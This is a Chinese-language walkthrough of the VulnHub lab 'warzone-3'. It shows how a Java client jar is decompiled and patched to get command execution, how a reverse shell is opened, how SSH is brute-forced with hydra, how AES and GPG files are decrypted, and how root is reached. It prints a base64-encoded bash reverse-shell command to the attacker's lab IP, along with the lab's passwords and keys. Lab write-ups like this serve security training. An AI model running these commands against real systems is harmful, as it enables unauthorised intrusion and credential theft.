# 前言

靶机：`warzone-3`，IP地址为`192.168.10.4`

攻击：`kali`，IP地址为`192.168.10.2`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.1.1/24`扫描



# 信息收集

## 使用nmap扫描端口



## FTP信息探测

使用匿名用户`anonymous`配合空密码登录测试，发现直接登录成功，并发现两个文件，下载到`kali`中，一会进行查看



查看下载的两个文件，一段英文，以及一个`java`文件



看不懂英文可以翻译，这里大概意思就是，算了，上图吧



记住用户名`alienum@exogenesis`，以及对用户名进行`sha-256`加密可能是其密码的，这里的加密可以从网上，或者使用软件都一样，这是加密后的`2c80976c2de4119d358e757a305a8ae2fbb44484b83aeeb70e053ccbb7274dbd`

现在尝试测试端口`4444`，但是并非`http`服务，使用`nc`连接，也没有任何内容

那么这时候尝试测试获取的另一个文件`jar`包

使用命令执行这个包进行测试
```shell
java -jar alienclient.jar
```

运行后，出现一个程序，可以利用，不过这里输入上面的用户名和密码，没有任何反应



# alienclient.jar包反编译

## 测试alienclient.jar功能

使用`jd-gui`对`jar`包进行一个反编译查看，在其中一个类代码中，找到与4444端口连接的代码，不过这里代码中是可能为域名的字符，那么尝试修改`/etc/hosts`中的文件，绑定这个域名与其IP地址



再次运行`jar`包

```shell
java -jar alienclient.jar
```

这时候，发现已经有变化了，相当于进入了


翻译英文



但是点击`view`，也就是查看，发现提示一个弹窗，说是无权限



点击`upload`上传，提示还未实施



## 分析代码

根据报错，定位代码中的位置，发现一个判断条件，也就是这个`role`可以控制`view`是否可以访问，那么就需要反编译后进行修改其中的内容，把`role`修改为`astronaut`



现在把反编译后的源文件，都保存下来，或者复制到对应的文件也是可以的



我这里是保存为`zip`压缩文件



然后创建文件夹`java`，把压缩包中的文件解压到这里



我这里是因为没有下载`IDE`等工具，本地是有一个`eclipse`，不过，感觉暂时用不到，应为这里还是比较简单的，进入`alien`文件夹。

## 修改代码

首先还是先进行修改，然后再进行编译，这里修改`Starter.java`文件中的`role`的值，这里最好是在离其进行判断的代码越近越好


然后进行编译，这里因为是多个`java`文件构成，所以可以采用以下命令

```shell
javac -d . $(find . -name "*.java")
```

也就是在当前目录下，找到`.java`结尾的所有文件，进行编译操作

发现提示报错点，因为是布尔类型，那么尝试修改这个值为`0`



修改值


再次进行编译操作，这次成功



那么这时候就可以使用命令，来生成`jar`包

这时候，需要复制之前一个文件中的内容，来确定主类等，这个文件可以自定义命名，也就是`MANIFEST.MF`这个文件中的内容，当然如果使用这个内容的话，需要在编译好的文件夹中写入这个内容

```java
Manifest-Version: 1.0
Main-Class: alien.Starter
Class-Path: .
```

我这里命名为`mainfest.txt`，内容与上面一致，在`alien`编译后的文件夹中



然后在当前路径下执行`jar`命令

```shell
jar cvfm test.jar mainfest.txt alien

#c表示创建新的 JAR 包；
#v表示在标准输出中显示详细信息；
#f表示指定 JAR 文件名（test.jar）；
#m表示包含清单文件（也就是前面创建的mainfest.txt）；
#alien 是编译后的文件所在的，文件夹的名称
```



到此是已经成功生成`jar`包，使用命令执行

```shell
java -jar test.jar
```

然后发现运行成功，这时候输入用户名和密码即可登录，不过这里在反编译的时候发现用户名和密码，和之前的方式类似，不过是`alienum@exogenesis`在`@`符号前是用户名，在`@`符号后是密码。

并且如果直接在登录框，把`alienum@exogenesis`直接输入也是可以登录的，所以前面的那个`token`，也就是对用户名进行`sha256`加密的操作，并不是根据这个进行的。

这里带过，了解就行，图片的话，放一下吧，还有一个进行




## 代码再分析

使用`alienum@exogenesis`登录成功后，点击`view`，发现可以看到一些内容，不过并没有任何有用的东西，那么还需要从代码下手，



在搜索`view`时，发现一个函数中，是对这个查看`report.txt`进行的操作



这里就需要修改后再编译，首先把原本的`alien`文件夹删除，也就是原本编译好的文件夹

```shell
rm -rf alien
```

## 修改代码测试命令执行

然后修改`Starter.java`文件，先修改为`whoami`进行测试，确定是否可执行



然后再进行编译和生成`jar`操作，与上面步骤一致

```shell
#编译java文件至alien文件夹，也就是包
javac -d . $(find . -name "*.java")	

#查看当前目录下是否已经编译成功，并有alien文件夹
ls
#使用jar生成一个test1.jar包
jar cvfm test1.jar mainfest.txt alien

#运行生成的test1.jar包
java -jar test1.jar
```

使用`alienum@exogenesis`登录成功后，这时候不管点击哪一个`txt`文件，都会弹出`whoami`的结果



## 再次修改代码进行反弹shell

那么确定是可以的，就尝试进行反弹shell命令的注入，对于反弹`shell`种类太多，这里采用`bash`进行反弹，不管直接命令反弹还是不行，所以这里给出个网站吧，里面有很多，可以自己进行测试

`https://forum.ywhack.com/shell.php`

我这里使用的是，对`bash`反弹进行`base64`编码的

```shell
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjIvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}
```

这里的命令是在前面的基础上进行修改，截个图吧，后面编译就不截图了



然后进行编译等操作，大概过程如下面代码所呈现的

```shell
#删除alien文件夹，编译后文件的文件夹
rm -rf alien

#编译java文件至alien文件夹，也就是包
javac -d . $(find . -name "*.java")	

#查看当前目录下是否已经编译成功，并有alien文件夹
ls
#使用jar生成一个test1.jar包
jar cvfm test2.jar mainfest.txt alien

#运行生成的test2.jar包
java -jar test2.jar
```

先在`kali`中开启监听

然后使用`alienum@exogenesis`登录后点击`view`后，随便点击其中的一个`txt`文件，都会触发反弹



# 反弹shell至exomorph用户

查看当前靶机内的用户有哪些

```shell
cat /etc/passwd | grep /bin/bash
ls -al /home
```



我这里因为某些原因，导致靶机损坏，所以重新装的靶机，这里开始，IP地址会有转变

这里靶机IP地址为`192.168.10.11`

在靶机内当前用户的主目录下，发现几个文件，因为是`jar`文件，说明可能还是需要进行反编译操作，反正需要查看代码，这里还有其他的几个文件，也是下载为好，毕竟有一个文件还进行了隐藏文件的备份，说明挺重要的



下载到`kali`中



## 反编译wrz3encryptor.jar

使用工具`jd-gui`反编译进行查看代码内容

查看反编译后的`Main`文件内容



再查看其中的`Cryptor`，确定为AES加密



这里就直接修改代码，毕竟这里涉及到文件打开之类的，在线网站解密，大部分都还没有直接上传文件的。

与之前一样，保存所有源代码到指定位置后，进行解压，然后就可以查看修改了


## 根据加密方式，添加解密方法

因为本质上加密调用的算法，是一种常用的，并且也是可以进行解密操作，只需调用时，采用解密模块

修改`Main`代码为

```java
package alienum;
import java.io.File;
import java.io.IOException;
public class Main
{
  static String path = "aliens.txt"; 
  public static void main(String[] args) throws IOException, ClassNotFoundException {
     String key = "w4rz0nerex0gener";
      
     File inputFile = new File("/root/vulnhub/warzone/3/exomorph/aliens.encrypted");
//这里是主要修改点，也就是根据原本的进行反过来
//这里的输入文件为加密后的文件即可
      
     File encryptedFile = new File("/root/vulnhub/warzone/3/exomorph/aliens.txt");
      try {
       Cryptor.decrypt(key, inputFile, encryptedFile);
     //这里的调用函数为decrypt，这是在Cryptor新定义的，用于解密的
     } catch (CryptoException ex) {
       System.out.println(ex.getMessage());
       ex.printStackTrace();
     } 
   }
 }
```

在`Cryptor`修改，主要就是添加一个函数，用于解密，其余不动

```java
public class Cryptor
 {
   private static final String ALGORITHM = "AES";
   private static final String TRANSFORMATION = "AES";

   public static void encrypt(String key, File inputFile, File outputFile) throws CryptoException {
     doCrypto(1, key, inputFile, outputFile);
   }
//主要修改的就是下面这个函数，定义decrypt，与Main调用一致
   public static void decrypt(String key, File inputFile, File outputFile) throws CryptoException {
     doCrypto(Cipher.DECRYPT_MODE, key, inputFile, outputFile);
   }
    //这里的Cipher.DECRYPT_MODE表示解密模块
    //如果不知道，可以使用ai搜索
```

然后这里不需要进行编译处理，直接运行`Main.java`文件即可

```shell
java Main.java
```



去设置的输出文件路径，查看文件`aliens.txt`，发现类似于用户名与密码的格式



把`strings`出的内容，复制到一个文件`ssh.txt`中，然后使用`hydra`进行`ssh`爆破

```shell
hydra -C ssh.txt 192.168.10.11 ssh
#-C 参数就是用 user:pass 这种格式
```



# ssh登录anunnaki用户



查看当前用户下的文件，发现几个文件，首先查看第一个`flag`吧



查看剩下的两个文件，其中`info.txt`中相当于提示，内容大概为

'记得使用 “--batch” 选项，否则当你解密 GPG 文件时，密码短语相关选项将会被忽略。你是知道密码短语的'



使用`scp`把文件下载到`kali`中

```shell
scp anunnaki@192.168.10.11:~/secpasskeeper.jar.gpg ./
```



## gpg文件格式解密

使用`gpg`进行解密，既然说这个`passphrase`是知道的，说明可能是`ssh`登录时的密码，或者那个文件中的某一个密码，这里先测试登录时的密码，发现可以

```shell
gpg --batch --output secpasskeeper.jar --passphrase nak1nak1.. --decrypt secpasskeeper.jar.gpg
#这里注意，--decrypt最好是放置在最后
```



## 反编译jar文件，并分析代码

使用`jd-gui`反编译文件，查看`Main`文件中的代码，发现亮点



其他两个文件，查看都是一些加密的算法吧，不需要修改

修改`Main`中的判断，`/*  */`表示注释



然后无需编译，直接执行也是可以的

```shell
java Main.java
```



获取密码`ufo_phosXEN`

# 根据密码切换至root

直接进行`su`切换



查看最终`boss`文件




# 总结

该系列靶场主要都是对`java`进行初级考察

1. 对于`jar`包是否会反编译
2. 对于反编译出的文件，能否看懂，并进行逆向获取敏感信息
3. `gpg`格式文件如何解密
4. `java`代码编写的逻辑判断

主要就是考察一点，常见的`java`函数，以及读懂`java`代码


